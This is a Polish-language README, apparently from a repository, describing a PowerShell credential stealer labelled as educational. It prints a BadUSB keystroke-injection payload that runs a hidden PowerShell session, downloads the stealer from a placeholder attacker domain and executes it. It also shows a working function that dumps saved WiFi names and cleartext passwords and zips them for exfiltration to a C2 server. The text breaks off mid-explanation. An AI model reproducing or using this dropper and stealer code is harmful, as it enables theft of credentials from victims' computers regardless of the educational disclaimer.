 # Powershell credential stealer - Extractor

## Poniższy stealer i całe środowisko zostało przygotowane jedynie w celach edukacyjnych. Nigdy nie zostało wykorzystane do masowych ataków. Żaden człowiek nie ucierpiał :)

### Użyte języki i technologie:

 - Powershell
 - Bash
 - PHP
 - Python
 - Serwer C2 - VPS hostowany przez mikr.us
### Potwierdzone poprawne działanie na systemach Windows 10 oraz 11

### 1. Opis działania extractor.ps1
**Na samym początku należy zaznaczyć, że extractor dokonuje jedynie kradzieży danych oraz odszyfrowania klucza, którym są one zaszyfrowane. Dane te będą odszyfrowane na maszynie atakującego z wykorzystaniem skryptów w języku Python. Ma to na celu jak najszybsze działanie kodu, brak konieczności wykorzystywania interpretera Python'a  oraz dodatkowych bibliotek do powershella u ofiary. 
Kod extractora został napisany tak, by korzystać tylko i wyłącznie z wbudowanych w system modułów i bibliotek.**

Działanie malware rozpoczyna się od zainicjowania droppera poprzez urządzenie typu "BadUSB" (w przypadku autora jest to Flipper Zero). Flipper podszywając się pod klawiaturę wstrzykuje do urządzenia poniższy payload:

    DELAY 3000
    GUI r
    DELAY 500
    STRING powershell -w hidden IEX (New-Object Net.WebClient).DownloadString('https://domena-atakujacego-lub-adres.ip/extractor.ps1')
    DELAY 500
    ENTER
co powoduje pobranie oraz uruchomienie właściwego kodu. 
Na początku działania, malware ustala hostname urządzenia, na którym zostało wywołane i kradnie zapisane sieci WiFi oraz przypisane do nich hasła.
Odpowiada za to poniższa funkcja:

    function Wifi {
    echo "windows:wifi_name" > $env:localappdata\tmp.csv
    netsh wlan show profiles | select-string "All" >> $env:localappdata\tmp.csv
    $wifis=import-csv $env:localappdata\tmp.csv -delimiter ":"
    foreach ($i in $wifis) {
        $cz = $i.wifi_name
        netsh wlan show profile name=$cz key=clear >> $env:localappdata\wifis.txt
    }
    rm $env:localappdata\tmp.csv
    Compress-Archive -Path "$env:localappdata\wifis.txt" -DestinationPath "$env:localappdata\$compname.zip" -Update
    rm $env:localappdata\wifis.txt
    }
Objaśnienie:
Poprzez wbudowane polecenie systemu windows "netsh wlan show profiles" można uzyskać informacje o sieciach, z którymi urządzenie miało połączenie. Tworzony jest tymczasowy plik CSV, który zawiera nazwy i informacje o tych sieciach. Następnie w pętli foreach zostają kolejno pobrane nazwy sieci do zmiennej **$cz** i zostaje wywołane polecenie 

